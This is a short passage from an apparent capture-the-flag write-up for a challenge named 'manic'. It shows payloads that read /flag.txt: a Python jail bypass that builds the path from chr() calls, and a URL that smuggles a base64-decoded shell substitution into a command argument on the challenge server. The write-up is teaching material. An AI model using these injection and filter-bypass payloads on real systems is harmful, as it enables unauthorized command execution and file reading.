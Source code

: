 Output:

![Python Payload Output](images/manic/python_payload_output.png)

Python code:

```python
print(open(chr(47)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116)).read())
```

Equivalent Python code

```python
print(open("/flag.txt").read())
```

The use of the [chr](https://docs.python.org/3/library/functions.html#chr) function in Python is a common method to bypass character restrictions in Pyjails. In this case we are replacing the "/" character with `chr(47)`.

##### Base64

![Base64 Payload](images/manic/base64_payload.png)

```
{base_url}/;/--html="$(echo%20\'L2ZsYWcudHh0\'|base64%20-d)"/;/-l/;/app.py

http://challenges.oceaniacc.com:5001/;/--html=%22$(echo%20'L2ZsYWcudHh0'|base64%20-d)%22/;/-l/;/app.py
```

Decoded URL:

```
{base_url}/;/--html="$(echo 'L2ZsYWcudHh0'|base64 -d)"/;/-l/;/app.py
```

Output:

![Base64 Payload Output](images/manic/base64_payload_output.png)
